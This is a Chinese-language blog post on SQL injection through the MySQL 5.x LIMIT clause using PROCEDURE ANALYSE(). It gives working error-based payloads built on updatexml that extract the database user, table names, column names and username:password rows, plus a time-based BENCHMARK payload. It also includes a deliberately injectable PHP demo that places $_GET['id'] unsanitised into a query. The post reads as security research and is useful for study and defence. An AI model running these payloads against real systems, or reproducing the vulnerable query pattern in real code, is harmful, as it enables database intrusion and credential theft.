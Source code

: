 ```yaml
---
layout: post
title: Mysql in Limit Sql Injection
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>
<center>
<img src="http://ww1.sinaimg.cn/mw690/9c5c5d93tw1erpyb5brduj20go08hgmc.jpg">
</center>

>sql注入在组合拼接方面一直都很灵活,因为语法本身就很灵活,不过Mysql的Limit下一直没办法注入,国外大牛发表了个[SQL Injections in MySQL LIMIT clause](https://rateip.com/blog/sql-injections-in-mysql-limit-clause/)的paper,意在利用Mysql的一个优化建议函数ANALYSE()进行Limit处注入,`此方法适用于Mysql5.x`.

	SELECT freld FROM table WHERE id>0 ORDER BY id LIMIT injection_point
	
**像这样的语句,由于后面跟着`ORDER BY`,所以无法UNION联合查询注入,那么就需要在LIMIT上找出路了**

Mysql5的`SELETCT`语法:

	SELECT 
    [ALL | DISTINCT | DISTINCTROW ] 
      [HIGH_PRIORITY] 
      [STRAIGHT_JOIN] 
      [SQL_SMALL_RESULT] [SQL_BIG_RESULT] [SQL_BUFFER_RESULT] 
      [SQL_CACHE | SQL_NO_CACHE] [SQL_CALC_FOUND_ROWS] 
    select_expr [, select_expr ...] 
    [FROM table_references 
    [WHERE where_condition] 
    [GROUP BY {col_name | expr | position} 
      [ASC | DESC], ... [WITH ROLLUP]] 
    [HAVING where_condition] 
    [ORDER BY {col_name | expr | position} 
      [ASC | DESC], ...] 
    [LIMIT {[offset,] row_count | row_count OFFSET offset}] 
    [PROCEDURE procedure_name(argument_list)] 
    [INTO OUTFILE 'file_name' export_options 
      | INTO DUMPFILE 'file_name' 
      | INTO var_name [, var_name]] 
    [FOR UPDATE | LOCK IN SHARE MODE]]
    
**LIMIT后面跟了两个函数,PROCEDURE和INTO,INTO除非有写入shell的权限，否则是无法利用的,那就看看PROCEDURE函数下能否注入.**

>一个测试表:

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/34324b9a.png">

**ANALYSE函数是可以查看表的优化建议**

	PROCEDURE ANALYSE([max_elements,[max_memory]])
	
ANALYSE函数后面可以有两个参数:

	select * from injection where id>0 order by id limit 0,1 procedure analyse(1,1);

<img src="http://ww4.sinaimg.cn/mw690/9c5c5d93tw1erqfqij043j20vo02qdhl.jpg">

看起来并不是很好，尝试下在`max_elements`处添加条件表达式:


	SELECT * from injection where id > 0 order by id LIMIT 1,1 procedure analyse((select IF(MID(version(),1,1) LIKE 5, sleep(5),1)),1);

但是立即返回了一个错误信息:

<img src="http://ww1.sinaimg.cn/mw690/9c5c5d93tw1erqfqhkijbj20vk02u40x.jpg">

>sleep函数没执行,不过还是有办法的,利用updatexml or extractvalue函数进行报错注入:

**爆用户名:**

	select * from injection where id>0 order by id limit 0,1 procedure analyse(updatexml(0,concat(0x7e,user()),0),1);
	
<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/213h8sad.png">

**爆表:**

	select * from injection where id>0 order by id limit 0,1 procedure analyse(updatexml(0,concat(0x7e,(select concat(table_name) from information_schema.tables where table_schema=database() limit 0,1)),0),1);

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/XA78as89.png">

**爆字段:**

	select * from injection where id>0 order by id limit 0,1 procedure analyse(updatexml(0,concat(0x7e,(select concat(column_name) from information_schema.columns where table_name='injection' limit 0,1)),0),1);
	
<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/32BSF8.png">

**爆数据:**

	select * from injection where id>0 order by id limit 0,1 procedure analyse(updatexml(0,concat(0x7e,(select concat_ws(':',id,username,password) from injection limit 0,1)),0),1);

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/sad782eq.png">

**如果不支持报错注入的话,还可以基于时间注入:**

	SELECT * FROM injection WHERE id > 0 ORDER BY id LIMIT 1,1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1);

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/3ewg87sdfb.png">

>一个Demo:

 	<?php
	/**
	 * Created by PhpStorm.
	 * User: Tr3jer
	 * Date: 15/1/24
	 * Time: 下午9:55
	 */
	include "Class_Mysql_Db_Model.php";
	
	$cof=new Config();
	$obj=new Mysql_Db_Model();
	$obj->connect($cof);
	
	$sql="select * from injection where id>0 order by id limit 0,{$_GET['id']}";
	
	if($obj->query($sql)){
		var_dump($row);
	}else{
		die(mysql_error());
	}
	
	mysql_close($obj);

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/3neiuwyfd.png">

>执行的语句:

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/2nuefdys8.png">

>Mysql内建的特性有很多,不过能够利用的缺陷还有待挖掘:)